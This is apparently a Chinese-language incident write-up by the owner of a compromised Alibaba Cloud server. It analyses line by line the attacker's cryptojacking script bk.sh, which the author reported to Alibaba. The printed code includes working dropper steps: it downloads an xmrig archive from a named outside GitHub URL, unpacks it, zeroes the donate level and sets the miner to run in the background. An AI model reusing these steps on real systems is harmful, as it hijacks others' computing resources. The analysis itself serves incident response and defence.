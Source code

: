 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)


## bk.sh，推测是靶机脚本(if 部分)

### 第一层 if

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)
* [Linux /dev/null详解](https://www.shuzhiduo.com/A/6pdDP9ALdw/)


```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi

# 找不到curl命令定义，则丢入黑洞，跳出
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi

# `sudo -n true 2`返回“一个密码请求”的定义信息
# if ! sudo -n true 2>/dev/null; then
#  if ! pidof systemd >/dev/null; then
#    echo "ERROR: This script requires systemd to work correctly"
#    exit 1
#  fi
# 看起来是调用（CPU几个核心数*7/10），如果为0，跳出。
CPU_THREADS=$(nproc)
EXP_MONERO_HASHRATE=$(( CPU_THREADS * 700 / 1000))
if [ -z $EXP_MONERO_HASHRATE ]; then
  echo "ERROR: Can't compute projected Monero CN hashrate"
  exit 1
fi
```

以上这echo所打印的报错信息，基本也说明主机不能正常使用，这对他们黑客而言，已经没有任何价值了。如果这些正常的话，则运行下载好的挖矿脚本，以及其专用的挖矿程序。然后又是层层的if环境检验。

### 第二层 if

参考信息源：

* [入门小站-linux之curl命令](https://zhuanlan.zhihu.com/p/519406107)
* [sed -i 命令入门详解](https://blog.csdn.net/h4241778/article/details/125263518)
* [XMR恶意挖矿案例简析](https://www.sohu.com/a/260504074_354899)
* [诱捕黑客的蜜罐系统](https://baijiahao.baidu.com/s?id=1706341262655959831)
* [linux应用之test命令详细解析](https://www.cnblogs.com/tankblog/p/6160808.html)
* [Shell脚本中$0、$?、$!、$$、$*、$#、$@等的意义以及linux命令执行返回值代表意义](https://blog.csdn.net/helloxiaozhe/article/details/80940066)


```
# curl -L --progress-bar 显示网页内容与进度条，存在异常则直接中断退出。
if ! curl -L --progress-bar "https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz" -o /tmp/xmrig.tar.gz; then
  echo "ERROR: Can't download https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/xmrig.tar.gz file to /tmp/xmrig.tar.gz"
  echo ""
  exit 1
fi

#  不能正常解压缩，退出删除文件
if ! tar xf /tmp/xmrig.tar.gz -C $HOME/c3pool --strip=1; then
    echo ""
	echo ""
  fi
  rm /tmp/xmrig.tar.gz

# 使用正则，看上去是为了替换掉原有的config.json的donate-level的数值。
  sed -i 's/"donate-level": *[^,]*,/"donate-level": 0,/' $HOME/c3pool/config.json
  $HOME/c3pool/xmrig --help >/dev/null
  # $? 最后命令的退出状态的返回值。0表示没有错误，其他任何值表明有错误。
  #   # 比较，不等于0，再检验下xmrig还是不是文件，是就打印换行，否则跳出。
  if (test $? -ne 0); then 
    if [ -f $HOME/c3pool/xmrig ]; then
      echo ""
	  echo ""
    else 
      echo ""
	  echo ""
    fi
    exit 1
  fi
fi
```

### 推测其意，做环境判断之后，用正则配置json

参考信息源：

* [百度知道-Linux下面这条命令能逐个解释一下吗:cat /etc/passwd |cut -f 1 -d ](https://zhidao.baidu.com/question/555970944.html)
* [博客园-Linux命令之cut](https://www.cnblogs.com/zhoujingyu/p/4948051.html)
* [csdn-linux中的sed参数,sed一些参数的用法](https://blog.csdn.net/weixin_39891317/article/details/116855981)
* [linux 抽取ip地址,Linux bash脚本提取IP地址](https://blog.csdn.net/weixin_36371924/article/details/116767805)
* [linux中awk命令详解(最全面秒懂）](https://www.cnblogs.com/zhengyan6/p/16290156.html)

指令逐条解释

* `hostname | cut -f1 -d"."` 将hostname的输出结果，传递给cut，以“.”切割分段行显示
* `sed -r 's/[^a-zA-Z0-9\-]+/_/g'` 删除所有特殊字符(除了数字以及大小写字母)。
* `ip route get 1` 返回路由条目，包括IP、网关、uid。
* `awk '{print $NF;exit}'` 对内容空格分段。

```
PASS=`hostname | cut -f1 -d"." | sed -r 's/[^a-zA-Z0-9\-]+/_/g'`
if [ "$PASS" == "localhost" ]; then
# 测试这条命令输出为0
  PASS=`ip route get 1 | awk '{print $NF;exit}'`
fi
# 推测是配置json账户信息
if [ -z $PASS ]; then
  PASS=na
fi
if [ ! -z $EMAIL ]; then
  PASS="$PASS:$EMAIL"
fi
```

将json拷贝一份，作为后台文件，再用sed配置成后台运行。

```
cp $HOME/c3pool/config.json $HOME/c3pool/config_background.json
sed -i 's/"background": *false,/"background": true,/' $HOME/c3pool/config_background.json
```


### echo打印信息收集

echo部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

